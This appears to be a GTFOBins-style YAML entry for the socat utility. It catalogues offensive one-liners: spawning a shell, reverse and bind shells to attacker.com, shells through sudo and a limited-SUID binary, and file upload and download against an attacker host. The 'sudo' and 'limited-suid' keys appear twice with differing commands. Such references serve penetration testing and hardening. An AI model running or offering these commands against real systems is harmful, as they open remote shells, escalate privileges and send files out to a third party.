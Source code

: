 ```yaml
---
functions:
  shell:
    - code: |
        socat STDIN EXEC:/bin/bash
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
  bind-shell:
    - description: Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
  sudo:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  limited-suid:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  file-upload:
    - description: Run ``socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat`` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
  file-download:
    - description: Run ``socat -u file:file_to_send tcp-listen:12345,reuseaddr`` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
  sudo:
    - description: The resulting shell is not a proper TTY shell and lacks the prompt.
      code: |
        sudo socat stdin exec:/bin/sh
  limited-suid:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
---
```


